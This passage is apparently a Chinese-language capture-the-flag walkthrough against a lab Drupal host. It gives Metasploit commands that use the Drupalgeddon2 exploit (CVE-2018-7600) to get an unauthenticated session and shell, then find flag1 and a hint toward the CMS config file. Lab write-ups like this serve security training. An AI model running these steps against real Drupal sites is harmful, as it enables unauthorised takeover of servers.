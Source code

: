 ```bash
search Drupal
```

![](https://z3.ax1x.com/2021/04/21/cbKPpj.png)

这里选用 exploit/unix/webapp/drupal_drupalgeddon2 ，因为较新且品质是 excellent

> 也就是CVE-2018-7600
>
> Drupal 系统没有对表单API接口的AJAX请求输入进行充分的检查，这就使得攻击者能够向内部表单结构中注入一个恶意的载荷。这将导致 Drupal 系统在未进行用户认证的情况下执行这个载荷。通过利用这个漏洞，一个攻击者能够接管任何 Drupal 系统用户的整个站点。

```bash
use exploit/unix/webapp/drupal_drupalgeddon2
show options
set RHOSTS 192.168.43.17 //这里只设定靶机就行
```

![](https://z3.ax1x.com/2021/04/21/cbKuh4.png)

```bash
run
```

![](https://z3.ax1x.com/2021/04/21/cbKcE8.png)

这样就可以成功得到一个会话

```bash
shell
```

用会话返回一个 shell

```bash
whoami
pwd
```

![](https://z3.ax1x.com/2021/04/21/cbKIuq.png)

查看目录

![](https://z3.ax1x.com/2021/04/21/cbKTbV.png)

发现 flag1.txt

![](https://z3.ax1x.com/2021/04/21/cbKq5F.png)

>  Every good CMS needs a config file - and so do you.

提示找 drupal CMS 的配置文件

# flag2

一搜就找得到配置文件位置
